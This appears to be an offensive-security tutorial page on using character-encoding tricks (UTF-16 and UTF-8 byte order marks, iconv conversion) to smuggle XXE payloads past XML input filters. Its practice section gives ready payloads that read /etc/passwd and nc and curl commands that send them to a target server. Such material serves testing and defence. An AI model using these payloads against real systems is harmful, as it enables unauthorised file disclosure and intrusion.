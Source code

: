 ```yaml
---
title: Understanding Character Encoding Bypasses
description: Explore techniques for character encoding bypasses to evade security
  and trigger XXE payloads.
keywords:
- character encoding bypass
- XML parsers
- XXE payload
- UTF-16
- byte order mark
- charset manipulation
- ISO-8859-1 evasion
- multibyte encoding
- security evasion
- encoding conversion
---
```


# Character Encoding Bypasses

## Context

Character encoding bypasses in XML parsers are advanced evasion techniques employed by attackers to manipulate encoding formats and bypass security filters or defenses. This exploitation strategy is primarily used to deliver XML External Entity (XXE) payloads while evading detection. To understand this concept, the reader should have foundational knowledge of character encodings such as UTF-8 and UTF-16, be familiar with XML structure and syntax, and know how to manipulate HTTP headers and perform standard XXE attacks.

## Theory

### Encoding Evasion in XML Parsers

Character encoding bypasses exploit the way XML parsers interpret document encoding. This can trick the parsers into evading security controls designed to filter malicious content. XML parsers can sometimes misinterpret or inconsistently enforce encoding schemes, allowing malicious payloads to bypass security measures. Often, security controls assume XML documents use UTF-8 encoding, leaving them vulnerable to alternate encodings such as UTF-16, which they may not properly sanitize.

### Byte Order Mark (BOM) and Encoding Switching

A Byte Order Mark (BOM) is a special marker at the beginning of a text stream that indicates the encoding format, such as UTF-16LE or UTF-8. Attackers can exploit this by crafting XML payloads with a BOM or encoding declaration to force parsers to interpret the payloads differently. Some XML parsers prioritize BOM or XML prolog encoding declarations over HTTP headers, leading to inconsistent parsing and vulnerability to encoding-based attacks.

### Multibyte and Non-Standard Encodings

Multibyte encodings, such as UTF-16 and UTF-7, use more than one byte to represent a character, which complicates filtering and validation processes. Filters designed for single-byte encodings might not detect malicious entities embedded in multibyte character streams. Furthermore, parser libraries might fail to normalize or validate input consistently across all supported encodings, allowing for sophisticated bypass techniques.

### Encoding Manipulation Tools and Techniques

Attackers can use tools like **iconv** and **recode** to convert payloads into alternate encodings for evasion. By encoding payloads in a non-default charset, attackers can submit them to the target system to bypass straightforward input validation checks.

## Practice

### UTF-16 BOM Bypass for XXE

To execute a UTF-16 BOM bypass, follow these steps:

- Craft an XML payload that includes a UTF-16LE BOM and an XXE entity designed to bypass UTF-8-only filters.
  
  **Payload in Hex**
  ```text
  FF FE 3C 00 3F 00 78 00 6D 00 6C 00 20 00 76 00 65 00 72 00 73 00 69 00 6F 00 6E 00 3D 00 22 00 31 00 2E 00 30 00 22 00 3F 00 3E 00 0A 00 3C 00 21 00 44 00 4F 00 43 00 54 00 59 00 50 00 45 00 20 00 78 00 78 00 65 00 20 00 5B 00 0A 00 3C 00 21 00 45 00 4E 00 54 00 49 00 54 00 59 00 20 00 78 00 78 00 65 00 20 00 53 00 59 00 53 00 54 00 45 00 4D 00 20 00 22 00 66 00 69 00 6C 00 65 00 22 00 20 00 22 00 2F 00 65 00 74 00 63 00 2F 00 70 00 61 00 73 00 73 00 77 00 64 00 22 00 3E 00 0A 00 5D 00 3E 00 0A 00 3C 00 72 00 6F 00 6F 00 74 00 3E 00 26 00 78 00 78 00 65 00 3B 00 3C 00 2F 00 72 00 6F 00 6F 00 74 00 3E 00
  ```

- Send the crafted payload to the vulnerable server:
  
  ```bash
  cat payload.xml | nc target.host 80
  ```

Outcome: This technique successfully processes the XXE payload despite input filters expecting UTF-8, thus bypassing input validation.

### UTF-8 BOM Evasion

To perform a UTF-8 BOM evasion:

- Prepend a UTF-8 BOM to an XXE XML payload, which tricks some parsers to ignore filters when BOM is present.
  
  **Payload**
  ```xml
  EF BB BF<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
  ```

- Send the BOM-prefixed payload to the target:
  
  ```bash
  echo -e '\xEF\xBB\xBF<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>' | curl -X POST -d @- http://target.host/upload
  ```

Outcome: The XXE payload is processed and bypasses filters that are not designed to handle BOM-prefixed input.

### Encoding Conversion with iconv

To convert encoding using **iconv**:

- Convert a standard XXE payload to UTF-16BE:

  ```bash
  iconv -f UTF-8 -t UTF-16BE xxe.xml > xxe-utf16be.xml
  ```

- Send the converted payload to the target server:

  ```bash
  cat xxe-utf16be.xml | nc target.host 80
  ```

Outcome: The payload in alternate encoding bypasses security filters expecting default or single-byte encoding inputs.

## Tools

- **iconv**
- **curl**
- **nc**